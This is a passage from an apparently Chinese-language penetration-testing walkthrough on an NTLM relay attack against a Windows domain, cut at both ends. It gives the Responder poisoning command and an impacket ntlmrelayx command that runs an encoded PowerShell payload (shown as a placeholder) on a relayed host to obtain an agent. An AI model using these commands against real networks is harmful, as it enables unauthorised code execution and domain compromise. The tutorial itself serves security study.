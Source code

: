 ```bash
Responder -I eht0 -r -d –v
```

[![](assets/1701222524-21c356834d4dc1d8955d2d301efb6233.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144628-db440e0e-8db9-1.png)  
Step 5：之后使用 impacket 中的 ntlmrelayx 执行以下命令，条命令是对中继成功的机器自动执行 powershell 并获取 agent，powershell 脚本放在引号中

```bash
ntlmrelayx.py -t 192.168.188.3 -c 'powershell -noP -sta -w 1 -enc [powershell code]'
```

[![](assets/1701222524-4d65bec0a769caffc961323c5496afcf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144700-ee6c8a24-8db9-1.png)  
Step 6：在域控上创建共享操作
